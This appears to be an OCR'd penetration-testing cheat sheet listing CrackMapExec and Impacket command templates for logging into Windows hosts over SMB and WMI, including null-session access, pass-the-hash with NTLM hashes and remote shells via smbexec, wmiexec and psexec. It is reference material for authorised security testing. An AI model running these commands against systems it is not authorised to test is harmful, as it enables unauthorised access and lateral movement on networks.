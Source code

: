 # Login

## SMB null session login

```
cme smb <target> -u '' -p ''
```

## SMB anonymous login

```
cme smb <target> -u 'a' -p ''
```

## SMB authentication (domain) - CME

```
cme smb <target> -u <user> -p <password> -d <domain>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## SMB authentication (domain) - Impacket

```
smbexec.py <domain>/<username>:<password>@<target>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## SMB authentication (local)

```
cme smb <target> -u <user> -p <password> --local-auth
```

## SMB authentication (Pass-The-Hash)

```
cme smb <target> -u <user> -H <hash> --local-auth
```

## WMI Authentication (domain)

```
wmiexec.py <domain>/<user>:<password>@<target>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## WMI Authentication (Pass-The-Hash)

```
wmiexec.py -hashes <hash> <user>@<target>
```

## Powershell Authentication (domain)

```
psexec.py <domain>/<user>:<password>@<target>
```

## Powershell Authentication (Pass-The-Hash)

```
psexec.py -hashes <hash> <user>@<target>
```

